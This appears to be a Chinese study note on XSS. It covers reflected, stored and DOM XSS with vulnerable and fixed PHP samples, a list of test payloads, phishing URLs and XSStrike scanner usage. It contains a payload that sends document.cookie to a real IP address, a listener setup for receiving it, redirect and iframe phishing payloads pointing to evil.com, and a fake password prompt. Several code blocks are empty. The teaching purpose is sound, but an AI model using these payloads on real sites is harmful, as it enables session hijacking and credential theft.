






## `XSS` 简介

是一种经常出现在 WEB 应用程序中的计算机安全漏洞，是由于 WEB 应用程序对用户的**输入过滤不足**而产生的。攻击者利用网站漏洞**把恶意的脚本代码注入到网页中**，当其他用户浏览这些网页时，就会执行其中的恶意代码，对受害用户可能采取 **Cookies 资料窃取**、**会话劫持**、**钓鱼**欺骗等各种攻击。

---

## 反射型 `XSS`

将恶意脚本附加到 URL 地址的参数中。

反射型 `XSS` 的利用一般是攻击者通过特定手法（如电子邮件），诱使用户去访问一个包含恶意代码的 URL，当受害者点击这些专门设计的链接的时候，恶意代码会直接在受害者主机上的浏览器执行。此类 `XSS` 通常出现在**网站的搜索栏**、**用户登录口**等地方，常用来**窃取客户端 Cookies** 或进行**钓鱼欺骗**。

服务器端代码：

```php
<?php 
// Is there any input? 
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) { 
    // Feedback for end user 
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>'; 
} 
?>
```

可以看到，代码**直接引用了 `name` 参数**，并没有做任何的过滤和检查，存在明显的 XSS 漏洞。

安全代码如下：

```php
<?php 
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) { 
    // 使用 htmlspecialchars 转义用户输入，ENT_QUOTES 确保单双引号都被转义
    $safe_name = htmlspecialchars($_GET[ 'name' ], ENT_QUOTES, 'UTF-8');
    echo '<pre>Hello ' . $safe_name . '</pre>'; 
} 
?>
```

**`htmlspecialchars()` 函数**，它会将有特殊含义的字符（如 `<`、`>`、`"`、`'` 等）转换为安全的 HTML 实体（如 `<`、`>`），从而让浏览器将其视为纯文本显示，而不是代码执行。

---

## 持久型 `XSS`

此类 `XSS` 不需要用户单击特定 URL 就能执行跨站脚本，攻击者事先将恶意代码**上传或储存到漏洞服务器中**，只要受害者浏览包含此恶意代码的页面就会执行恶意代码。持久型 `XSS` 一般出现在**网站留言、评论、博客日志**等交互处，恶意脚本存储到客户端或者服务端的数据库中。

前提提要：**TRIM函数用于删除字符串或单元格文本两端的多余空格，仅保留单词间的单个空格。**(其他不明白的可以自己查)

服务器端代码：

```php
<?php
  if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );
    // Sanitize message input
    $message = stripslashes( $message );
    $message = mysql_real_escape_string( $message );
    // Sanitize name input
    $name = mysql_real_escape_string( $name );
    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );
    //mysql_close(); }
?>
```

代码只对一些空白符、特殊符号、反斜杠进行了删除或转义，没有做 `XSS` 的过滤和检查，且存储在数据库中，明显存在存储型 `XSS` 漏洞。

---

## `DOM XSS`(一种特殊的反射型`XSS`)

传统的 `XSS `漏洞一般出现在服务器端代码中，而 DOM-Based `XSS` 是基于 **DOM 文档对象模型**的一种漏洞，所以，受客户端浏览器的脚本代码所影响。客户端 JavaScript 可以访问浏览器的 DOM 文本对象模型，因此**能够决定**用于加载当前页面的 **URL**。换句话说，**客户端的脚本程序**可以通过 DOM **动态地检查和修改页面内容**，它**不依赖于服务器端的数据**，而从客户端获得 DOM 中的数据（如从 URL 中提取数据）并在本地执行。另一方面，浏览器用户可以操纵 DOM 中的一些对象，例如 URL、location 等。用户在客户端输入的数据如果包含了恶意 JavaScript 脚本，而这些脚本没有经过适当的过滤和消毒，那么应用程序就可能受到基于 DOM 的 `XSS `攻击。

HTML 代码：

```html
<html>
  <head>
    <title>DOM-XSS test</title>
  </head>
  <body>
    <script>
      var a=document.URL;
      document.write(a.substring(a.indexOf("a=")+2,a.length));
    </script>
  </body>
</html>
```

将代码保存在 `domXSS.html` 中，浏览器访问：

```url
http://127.0.0.1/domXSS.html?a=<script>alert('XSS')</script>
```

即可触发 `XSS` 漏洞。

---

一般dom都是有#号的

可以在URL中加入测试

```url
#
```

特点：

1. 不经过后端服务器
2. 不会被`WAF`拦截
3. 是通过url传入参数去控制触发的

---

## 常见的测试代码

```html
<input onfocus=write('xss') autofocus>  
  
<svg onload=alert('xss') >  
<script>alert('xss')</script>  
<a href="javascript:alert('xss')">clickme</a>  
</td><script>alert(123456)</script>  
'><script>alert(123456)</script>  
"><script>alert(123456)</script>  
</title><script>alert(123456)</script>  
<scrip<script>t>alert(123456)</scrip</script>t>  
</div><script>alert(123456)</script>

打cookie和console.log语句 
<script>document.write('')</script>

<script>window.open('http://115.190.208.70:1234/?q='+btoa(document.cookie))</script>

<script>console.log("hack")</script>
```


**对于  "打cookie和`console.log`语句"  解释：**

```
document.cookie用来来创建 、读取、及删除 cookie。
打开一个新的标签页，将document.cookie获取到的cookie进行base64编码拼接到url里的q的参数值并访问该url。
```


#### 方法一：使用`VPS`接收

1. 攻击者启动web服务器用于接收cookie，启动一个简易的`http`服务（使受害者能够访问该服务器）

```bash
python3 -m http.server --bind 0.0.0.0 1234
```

2. 将payload放入漏洞所在地

```html
<script>document.write('')</script>
```

#### 方法二：使用蓝莲花(也需要`VPS`)

```bash
sudo bash LinuxEnvConfig.sh
```



默认密码：
```
bluelotus
```





然后改个名字就OK了

然后点击生成payload就可以使用了




---

## Cookies 窃取

就是上述的方法一和方法二

---

## 会话劫持


## 钓鱼 

- flash钓鱼
- `beff`钓鱼

- 重定向钓鱼：把当前页面重定向到一个钓鱼页面。

```url
http://www.bug.com/index.php?search="'><script>document.location.href="http://www.evil.com"</script>
```

- `iframe` 钓鱼

```url
http://www.bug.com/index.php?search='><iframe src="http://www.evil.com" height="100%" width="100%"</iframe>
```

- 高级钓鱼技术
- HTML 注入式钓鱼


了解更多可以去[XSS - CTF Wiki](https://ctf-wiki.org/web/xss/#_1)

---

## 网页挂马

一般都是通过篡改网页的方式来实现的，如在 `XSS` 中使用 `<iframe>` 标签。

## `XSStirke`的使用

下载自己找教程

```bash
git clone https://gitee.com/yijingsec/XSStrike.git

pip3 install -r requirements.txt

python xsstrike.py -h(查看帮助)
```


- 单目标GET请求：

```bash
选项：-u或--url
python xsstrike.py -u "http://example.com/search.php?q=query"
//靶场测试：
python xsstrike.py -u "http://a3ba14d7e107.target.yijinglab.com/vulnerabilities/reflected.php?payload=1"
```

- 单目标POST请求：

```bash
选项：--data
python xsstrike.py -u "http://a3ba14d7e107.target.yijinglab.com/vulnerabilities/stored.php" --data "comment=1"

指定Cookie探测
python xsstrike.py -u "http://949f5b4a0775.target.yijinglab.com/vulnerabilities/stored.php" --data "comment=1" --headers "Cookie: PHPSESSID=3l5cpk1g0b3b26i9tlmb6ppn7i"
```

- 从文件中读取多`URLS`测试：

```bash
选项:--seeds 不使用-u选项
python xsstrike.py --seeds urls.txt
```



- 自定义payloads

```bash
选项:-f或--file
python xsstrike.py -u "http://example.com/page.php?q=query" -f payloads.txt
python xsstrike.py -u "http://a3ba14d7e107.target.yijinglab.com/vulnerabilities/reflected.php?payload=1" -f payloads.txt
```




## 总结


1. HTML是`XSS`的“载体”：恶意代码通过HTML标签注入到网页中；
2. `JS`是`XSS`的“武器”：通过`JS`实现弹框、窃取信息、控制浏览器；
3. `XSS`核心验证：能弹出alert()，说明漏洞存在；
4. 绕过思路：当<script>被过滤时，用`img/a/iframe`等标签+事件触发`JS`。


#### 基础

```js
<script>alert('XSS攻击！');</script>
<script src="http://攻击者服务器/恶意.js">alert(1)</script>
```

当script被过滤时：

```js
（无闭合/跨站常用）


```

```js
<a href="javascript:alert('XSS')">点击我</a>
```

```js
<iframe src="javascript:alert(1)"></iframe>
<body onload="alert('XSS')">
```

#### 加强

```js
<script>
    var res = confirm('是否确认删除？'); // 点确认返回true，取消返回false
    alert('你的选择：' + res);
</script>
```

```js
<script>
    var pwd = prompt('系统升级，请输入密码：');
    alert('你输入的密码：' + pwd); // 实际攻击中会发送到攻击者服务器
</script>
```


事件是“触发`JS`执行的时机”，`XSS`常利用事件绕过过滤（比如<script>被禁时，用事件触发）：


| 事件名        | 触发时机                 | `XSS`示例                                |
| ------------- | ------------------------ | ---------------------------------------- |
| `onclick`     | 点击元素                 | <div onclick="alert(1)">点我</div>       |
| `onload`      | 页面/图片加载完成        | <body onload="alert(1)">                 |
| `onerror`     | 加载失败（如图片不存在） |              |
| `onmouseover` | 鼠标移到元素上           | <div onmouseover="alert(1)">移过来</div> |
